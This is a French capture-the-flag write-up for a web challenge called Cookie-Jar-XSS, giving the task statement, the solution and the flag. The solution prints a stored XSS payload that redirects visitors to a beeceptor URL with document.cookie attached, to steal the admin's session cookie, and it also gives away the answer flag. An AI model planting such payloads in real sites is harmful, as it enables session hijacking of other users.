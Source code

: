 # Titre : Cookie-Jar-XSS

# Catégorie : WEB

## Équipe : WEB

## Personnes : Christophe G-A, Marius V

## Description - Énoncé :

La légende raconte qu'un admin se connecte régulièrement pour supprimer les différents messages. Mais demandez l'aide du chevalier beeceptor pour progresser dans votre quête mais penser aussi à vous renseigner sur la magie noire : Cross-Site Scripting.

# Solution :

<<attention ce challenge n'est pas autonome>>

On arrive sur une page dans laquelle on peut afficher des messages, dans ces messages on peut y mettre des balises javascript et y exécuter des scripts pour tout ceux qui voient cette page. il faut y mettre une redirection vers un site tel que beeceptor et y envoyer le cookie de connexion de l’admin via une faille XSS.
ex de script de redirection : "<script>window.location.href = "https://persoo.free.beeceptor.com?cookie=" + document.cookie;</script>"
et utiliser un site tel que beeceptor pour récupérer les infos de la redirection.

Pour simuler le connexion de l’admin on va sur la page admin.php avec le cookie de connexion et cliquer sur le lien(permet de clear les messages)Malheureusement il faut connecter l’admin manuellement / via une macro clavier ou si on veut tenter de développer on  pourrait le faire avec node.js et une extension Puppeteer.

\--pour l'admin peser a se connecter en ayant créer le cookie qui a pour valeur ce flag !!!!

# URL de connexion : ...../vr05/

# flag : AdminPieged

# Docker (Merci de commenter votre Dockerfile):

- [x] oui :
  - Explication du fonctionnement du docker : "docker-compose"
- [ ] non